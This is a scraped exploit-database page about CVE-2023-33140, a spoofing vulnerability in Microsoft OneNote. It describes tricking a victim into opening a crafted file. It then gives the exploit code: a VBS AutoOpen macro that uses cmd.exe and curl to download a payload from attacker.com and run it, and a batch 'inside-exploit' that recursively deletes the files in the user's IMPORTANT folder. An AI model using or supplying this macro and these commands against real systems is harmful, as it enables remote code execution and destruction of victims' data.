 ```yaml
---
title: Microsoft OneNote (Version 2305 Build 16.0.16501.20074) 64-bit - Spoofing Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38810&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-27
fetch_date: 2025-10-04T11:45:13.267761
---
```


# Microsoft OneNote (Version 2305 Build 16.0.16501.20074) 64-bit - Spoofing Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Microsoft OneNote (Version 2305 Build 16.0.16501.20074) 64-bit - Spoofing Vulnerability CVE-2023-33140

2023-06-26 | CVSS 6.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38810
## Title: Microsoft OneNote (Version 2305 Build 16.0.16501.20074) 64-bit - Spoofing
## Author: nu11secur1ty
## Vendor: https://www.microsoft.com/
## Software: https://www.microsoft.com/en/microsoft-365/onenote/digital-note-taking-app
## Reference: https://portswigger.net/kb/issues/00400c00_input-returned-in-response-reflected

## Description:
Microsoft OneNote is vulnerable to spoofing attacks. The malicious
user can trick the victim into clicking on a very maliciously crafted
URL or download some other malicious file and execute it. When this
happens the game will be over for the victim and his computer will be
compromised.
Exploiting the vulnerability requires that a user open a specially
crafted file with an affected version of Microsoft OneNote and then
click on a specially crafted URL to be compromised by the attacker.

STATUS: HIGH Vulnerability

[+]Exploit:
```vbs
Sub AutoOpen()
  Call Shell("cmd.exe /S /c" & "curl -s
https://attacker.com/kurec.badass > kurec.badass && .\kurec.badass",
vbNormalFocus)
End Sub

```
[+]Inside-exploit
```
@echo off
del /s /q C:%HOMEPATH%\IMPORTANT\*
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/tree/main/2023/CVE-2023-33140)

## Proof and Exploit:
[href](https://www.nu11secur1ty.com/2023/06/cve-2023-33140.html)

## Time spend:
01:15:00

--
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)